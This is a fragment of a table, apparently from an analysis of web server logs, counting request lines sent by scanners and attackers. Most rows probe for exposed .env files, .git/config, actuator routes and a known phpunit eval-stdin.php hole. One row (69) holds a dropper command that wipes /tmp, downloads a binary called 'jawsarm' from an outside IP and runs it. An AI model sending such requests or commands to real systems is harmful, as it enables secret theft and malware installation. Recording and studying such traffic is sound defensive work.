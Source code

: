 |  62 |                     4 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                          |
|  63 |                     3 | GET /devops/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
|  64 |                     3 | GET /_ignition/execute-solution HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |
|  65 |                     3 | GET /console/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  66 |                     3 | GET /.env.secret HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |
|  67 |                     3 | GET /staging_area/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                         |
|  68 |                     3 | GET /public/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
|  69 |                     3 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsarm;chmod+777+/tmp/jawsarm;sh+/tmp/jawsarm HTTP/1.1                                                                                                                                                                                                                                                                                                       |
|  70 |                     3 | GET /configuration/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
|  71 |                     3 | GET /core/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  72 |                     2 | POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
|  73 |                     2 | GET /user/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  74 |                     2 | GET /.env.stage HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
